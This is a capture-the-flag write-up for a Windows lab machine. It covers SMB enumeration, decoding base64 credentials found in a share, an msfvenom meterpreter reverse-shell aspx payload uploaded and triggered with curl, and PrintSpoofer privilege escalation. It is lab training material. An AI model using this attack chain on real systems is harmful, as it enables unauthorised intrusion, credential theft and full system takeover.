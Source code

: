 ```yaml
---
sticker: emoji//1f440
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT  | SERVICE               |
| :---- | :-------------------- |
| 80    | `http`                |
| 135   | `msrpc`               |
| 139   | `netbios-ssn?`        |
| 445   | `tcp (SMB)`           |
| 3389  | `ms-wbt-server (RDP)` |
| 49663 | `http`                |
| 49667 | `msrpc`               |
| 49669 | `msrpc`               |
|       |                       |
A lot of ports are open, let's proceed to check the website located at port `80`


![](cybersecurity/images/Pasted%2520image%252020241122171440.png)

Nothing useful is in here, let's skip the fuzzing part as it doesn't contain anything too.

As shown in the open ports, we have RDP on `3389` and also SMB on `445`, let's try to enumerate SMB to check if there's anything useful.





# RECONNAISSANCE
---


## SMB Enumeration

Let's run the following command to list the shares in `SMB`:

`smbclient -l IP`

![](cybersecurity/images/Pasted%2520image%252020241122173253.png)

We find a share `nt4wrksv`, let's research to check if there's a way to access to it:

```ad-hint

#### How to access?
----

Command used

`smbclient \\\\<Victim Ip>\\nt4wrksv`

If we use that, we are able to connect even without the password:

![](cybersecurity/images/Pasted%2520image%252020241122173850.png)

```

We are in and found a `passwords.txt` file, let's download it and take a look at it:

![](cybersecurity/images/Pasted%2520image%252020241122173939.png)

Seems like two passwords, both are `base64` encoded, let's decode them:

![](cybersecurity/images/Pasted%2520image%252020241122174102.png)

![](cybersecurity/images/Pasted%2520image%252020241122174229.png)

We got the following credentials:

```ad-note

`Bob` : `!P@$$W0rD!123`
`Bill` : `Juw4nnaM4n420696969!$$$`


```

Let's scan the machine further to check if there's anything vulnerable, for this, I will use the following Nmap scan:

```ad-hint

##### Nmap
----

If we use: `nmap -Pn -script vuln IP`, we get the following:


![](cybersecurity/images/Pasted%2520image%252020241122180438.png)
The `3389` port is vulnerable to RCE. let's get a shell.

```
# EXPLOITATION
---

Nice, for the exploitation part we need to do the following:

```ad-summary
### Step to step to get the shell
---


1. Use msfvenom and create the reverse shell: `msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=OURIP lport=ourport -f aspx -o reverse_shell.aspx`
2. Upload the reverse shell file to the network share:
![](cybersecurity/images/Pasted%2520image%252020241122182149.png)
3. Use curl to retrieve the reverse shell: `curl http://IP:49663/nt4wrksv/reverse_shell.aspx`
4. Let's use metasploit's multi handler to create a listener:

![](cybersecurity/images/Pasted%2520image%252020241122182439.png)

Let's run the multi handler and use curl at the same time to get our shell:

![](cybersecurity/images/Pasted%2520image%252020241122182628.png)



```



Nice, let's do privilege escalation



# PRIVILEGE ESCALATION
---



For privilege escalation, we need to investigate the machine, let's take a look at the privileges using `getprivs`:


![](cybersecurity/images/Pasted%2520image%252020241122182831.png)

Most interesting one is the `SeImpersonatePrivilege`, we can impersonate, for this privilege escalation, we'll be impersonating `PrintSpoofer`:

```ad-note

Script: [GITHUB LINK](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)
```

Once we've put the script inside of our machine using smb, we can do the following:

![](cybersecurity/images/Pasted%2520image%252020241122183155.png)

Switch to shell and go to this route: 

`c:/inetpub/wwwroot/nt4wrksv`

![](cybersecurity/images/Pasted%2520image%252020241122183251.png)

We can now see our `PrintSpoofer64.exe` program, we need to do the following in order to get a reverse shell:

`PrintSpoofer64.exe -i -c powershell.exe`

We are taking advantage of the `SeImpersonatePrivilege`, let's get our root shell:


![](cybersecurity/images/Pasted%2520image%252020241122183438.png)

And just like that, CTF is done.

